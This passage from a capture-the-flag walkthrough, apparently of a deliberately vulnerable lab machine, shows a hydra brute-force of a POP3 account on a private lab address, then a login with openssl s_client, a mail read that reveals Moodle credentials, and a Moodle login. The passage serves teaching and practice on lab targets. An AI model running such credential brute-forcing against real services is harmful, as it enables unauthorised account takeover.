 Then with the Doak user I brute force and found his password.

```console
root@kali:~$ hydra -l doak -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt pop3://192.168.179.156 -s 55006  -t 50 -S
...
[55006][pop3] host: 192.168.179.156   login: doak   password: goat
...
```

I logged in to the pop3 service and found his credentials for the moodle platform.

```console
root@kali:~$ openssl s_client -connect 192.168.179.156:55006 -crlf -quiet
...
USER doak
+OK
PASS goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

I logged in to moodle as dr_doak.
